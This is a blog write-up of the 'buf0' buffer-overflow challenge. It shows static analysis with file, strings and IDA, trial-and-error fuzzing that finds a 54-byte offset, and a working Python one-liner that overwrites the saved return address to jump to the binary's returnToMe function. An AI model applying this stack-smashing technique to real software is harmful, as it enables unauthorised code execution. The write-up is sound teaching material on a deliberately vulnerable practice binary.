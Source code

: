 buf0 - A Buffer Overflow Challenge
==================================
date: 06/Jan/2014
summary: This is a buffer overflow challenge I found online. Although some people might find this to be a pretty easy exploit target, I thought of posting a writeup since it will still be someone's starting point into the jouney of exploitation.
tags: buffer overflow, writeups, reversing

The binary can be obtained from here: [buf0](/files/buf0.bin). Let's see what `file` command has to tell us about this challenge file:

```bash
$ file buf0.bin
buf0.bin: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3a0cbf6e6af7d4a5d1294f2ce18e80ad3e778d48, not stripped
```

So, this is an x86 ELF binary with symbols included. Let's run `strings` as well over this file:

```bash
$ strings buf0.bin
/lib/ld-linux.so.2
j,O)
__gmon_start__
libc.so.6
_IO_stdin_used
gets
puts
__libc_start_main
GLIBC_2.0
PTRh
UWVS
[^_]
W00T!
;*2$"
```

This is interesting. The binary is using `gets` syscall which is commonly exploited against buffer overflow vulnerabilities. There is a `W00T!` string as well which indicates that we need to exploit the binary and get this string printed. Before we execute this file, let's do some static analysis on it using IDA:

![image](/static/files/ida-start.png)

Apart from the standard libc defintions and `main`, I see an interesting function called `returnToMe` at location 0x08048404. Let's follow this function and see what is it doing:

![image](/static/files/ida-returntome.png)

Like I mentioned earlier, this is where the `W00T!` string is printed and as per the assumption, we need to leverage the overflow in a way that this function is called. Let's now run the binary and see how it behaves:

```bash
$ ./buf0.bin
AAAAAAAAAAA
$
$ python -c 'print "A"*10' | ./buf0.bin
$ python -c 'print "A"*30' | ./buf0.bin
$ python -c 'print "A"*50' | ./buf0.bin
$ python -c 'print "A"*60' | ./buf0.bin
Segmentation fault (core dumped)
$
$ python -c 'print "A"*55' | ./buf0.bin
Segmentation fault (core dumped)
$ python -c 'print "A"*53' | ./buf0.bin
$ python -c 'print "A"*54' | ./buf0.bin
$ python -c 'print "A"*55' | ./buf0.bin
Segmentation fault (core dumped)
```

So, the binary accepts input through the `gets` syscall and is as such vulnerable to a classic stack-based buffer overflow. We do some trial-and-error to figure out the size of the buffer and it turns out to be 54B after which any extra byte would corrupt the stack metadata resulting in a `Segmentation fault (core dumped)` error. So, these 54B comprise of the following stack variables:

```bash
50B (buf) + 4B (saved EBP)
```

The next 4B following saved EBP is the saved return address, EIP, and this is what we need to overwrite to achieve successful exploitation. For this challenge, the author wants us to overwrite EIP with the address of the `returnToMe` function but there are others ways of exploiting this as well:

1.  Injecting a 54B or less shellcode in the buffer and overwriting EIP
    with the start of the shellcode/NOP sled
2.  Injecting a bigger shellcode through an environment variable and
    overwriting EIP with it's address

But to keep things simple, let's just focus on how to complete the challenge by satisfying author's criteria. To know how to exploit such challenges using above steps please read my earlier post [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) and it's subsequent parts.

From the IDA screenshot above it is already known that the `returnToMe` function is at location 0x08048404. Let's exploit the binary with a random payload of 54B concatenated with this new return address:

```bash
$ python -c 'print "A"*54 + "\x04\x84\x04\x08"' | ./buf0.bin
W00T!
```

Awesome! We get the required string printed, thus completing this challenge. Stay tuned for a post on a similar challenge.
